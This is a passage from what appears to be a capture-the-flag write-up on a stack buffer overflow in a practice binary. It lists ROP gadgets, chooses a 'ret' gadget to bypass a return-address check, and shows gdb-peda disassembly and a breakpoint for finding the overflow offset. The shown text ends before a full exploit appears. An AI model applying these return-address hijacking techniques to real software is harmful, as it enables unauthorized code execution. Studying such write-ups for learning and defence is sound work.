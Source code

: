 ```
0x08048404 : rol byte ptr [ebx - 0xc36ef3c], 1 ; ret
0x0804843e : rol byte ptr [ebx - 0xc36ef3c], cl ; ret
0x080483d1 : sbb al, 0x24 ; ret
0x0804876b : xor byte ptr [ebp + 0xe], cl ; and byte ptr [edi + 0xe], al ; adc al, 0x41 ; ret
```

So looking through this list, we see the gadget we want.

```
0x08048316 : ret
```

So we will replace the address stored in the eip register with 0x08048316. Now to find the offset.

```
gdb-peda$ disas the_horror
Dump of assembler code for function the_horror:
   0x0804849b <+0>:	push   ebp
   0x0804849c <+1>:	mov    ebp,esp
   0x0804849e <+3>:	sub    esp,0x38
   0x080484a1 <+6>:	mov    eax,ds:0x80498c0
   0x080484a6 <+11>:	sub    esp,0x4
   0x080484a9 <+14>:	push   eax
   0x080484aa <+15>:	push   0x64
   0x080484ac <+17>:	lea    eax,[ebp-0x34]
   0x080484af <+20>:	push   eax
   0x080484b0 <+21>:	call   0x8048350 <fgets@plt>
   0x080484b5 <+26>:	add    esp,0x10
   0x080484b8 <+29>:	mov    eax,DWORD PTR [ebp+0x4]
   0x080484bb <+32>:	mov    DWORD PTR [ebp-0xc],eax
   0x080484be <+35>:	mov    eax,DWORD PTR [ebp-0xc]
   0x080484c1 <+38>:	and    eax,0xf0000000
   0x080484c6 <+43>:	cmp    eax,0xf0000000
   0x080484cb <+48>:	jne    0x80484e7 <the_horror+76>
   0x080484cd <+50>:	sub    esp,0xc
   0x080484d0 <+53>:	push   0x80485b0
   0x080484d5 <+58>:	call   0x8048360 <puts@plt>
   0x080484da <+63>:	add    esp,0x10
   0x080484dd <+66>:	sub    esp,0xc
   0x080484e0 <+69>:	push   0x0
   0x080484e2 <+71>:	call   0x8048370 <exit@plt>
   0x080484e7 <+76>:	sub    esp,0x8
   0x080484ea <+79>:	push   DWORD PTR [ebp-0xc]
   0x080484ed <+82>:	push   0x80485e4
   0x080484f2 <+87>:	call   0x8048340 <printf@plt>
   0x080484f7 <+92>:	add    esp,0x10
   0x080484fa <+95>:	nop
   0x080484fb <+96>:	leave  
   0x080484fc <+97>:	ret    
End of assembler dump.
gdb-peda$ b *the_horror+26
Breakpoint 1 at 0x80484b5
gdb-peda$ r
Starting program: /Hackery/escape/buf_ovf/b8/b8 
Corrective solutions aren't working. We might have to upgrade.
75395128
```
